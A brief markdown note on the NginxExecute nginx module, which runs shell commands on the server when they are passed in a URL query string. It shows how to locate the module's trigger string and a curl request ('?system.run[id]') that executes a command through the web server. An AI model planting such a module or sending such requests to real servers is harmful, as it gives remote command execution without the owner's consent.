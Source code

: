 # Nginx web server command execution module

## Github repo: https://github.com/limithit/NginxExecute

### Requirements: In the nginx configuration file, find (Command: on)

#### 1) Find the variable that runs commands on the server

    strings /usr/share/nginx/modules/NAME_OF_THE_MODULE.so | grep run 

### Usage: 

    curl -s -g "http://localhost:8000/?system.run[id]"

